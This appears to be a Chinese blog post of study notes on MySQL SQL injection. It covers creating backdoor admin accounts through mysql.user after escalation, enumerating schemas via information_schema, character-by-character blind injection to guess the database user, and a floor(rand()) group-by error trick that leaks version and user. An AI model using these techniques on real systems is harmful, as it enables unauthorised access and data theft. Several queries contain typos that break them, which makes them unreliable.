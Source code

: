 ```yaml
---
title: 常见的sql注入方式
date: 2020-04-15 11:44:01
tags: sql注入
---
```


# sql注入提权后创建一个账户

在系统自带的mysql数据库中有常用的两个表`db`和`user`,`columns_priv`,

## 创建一个普通账户
`insert into user (host,user,password) values('%','admin3',password('abc'));`
查找到刚才插入的数据
`select host,user,password from mysql,user;`
刷新权限
`flush privileges`

## 创建一个超级账户(通过拷贝的方法)
`create table tmp select *from mysql,user where user='root' limit 1;`
更新
`update tmp set host='%',user='admin4',password=password('abc');`
刷新权限
`flush privileges`
查找到刚才插入的数据
`select host,user,password from mysql,user;`


# 以下三种是通过information_schema元数据字典方式

## 获得当前实例所有数据库名
- `select databases();`
- `select schema_name from information_schema.schemata;`
- `select distinct table_schema from information_schema.tables;`

##  获得当前数据库所有表名
`select database()  //当前的数据库名`
-  `show tables;`
-  `select table_name from information_schema.tables where table_schema=database();`

## 活得当前表所有字段
-  `select column_name from information_schema.columns where table_schema=database() and table_name='表名';`

# 探子回报函数应用

## 查看当前用户名
- `select user();`
- `select current_user();`
- `select session_user();`

## 查看当前版本
- `select version();`

## 猜测当前数据库长度
- `select length(database())>3` 如果返回是0，则说明这个数据库长度为3，如果返回是1,则长度不是这个数

## 取出字符(取出数据库左边开始数的一个字符)
- `select left(database(),1);`
  
## 取出的字符比较
- `select left(database(),a)>'a';`如果返回的是1，则这个字符大于a，如果返回的是0，则这个字符就是取出来的数。

## 自定义取出一串字符
- `select aubstring(database(),1,2);`这个意思是，从第一个字符开始取，要取出两个字符。

## 返回一个字符的所在位置
- `select position('@' in user());`
- `delect locate('@',user());`

## 盲注猜测用户名和密码
- 1.先验证用户名有多少个字符
`select *from users where uid=1003 and length(user())>4;`
- 2.对@位置的猜测
`select *from users whereuid=1003 and position('@' in user())>1;`
- 3.用户名逐个猜测
`select *from user where uid=1003 and left(user(),1)='a';`
`select *from user where uid=1003 and substring(user(),2,1)='b';`

# 自报家底函数

## 随机函数,返回0到1之间的小数
`select rand();`

## 获得整数，四舍五入
`select round(rand()*2);`  //0 1 2

## 向下取整
抹掉小数，没有四舍五入
`select floor(rand()*2)`  //0 1

## 拼接
`select concat('abc','def')`  //abcdef

## 得出某个相同字段的组数
`select <字段>,count(*) from <表名> group by <字段>`

## 某个相同字段显示一行id,
``select <字段1>,group_concat(<字段2>) from <表名> group by <字段1>;`

## 暴露系统用户名敏感信息
`select count(*),concat(vaersion(),floor(rand()*2),user()) as a from <表名> group by a ;`

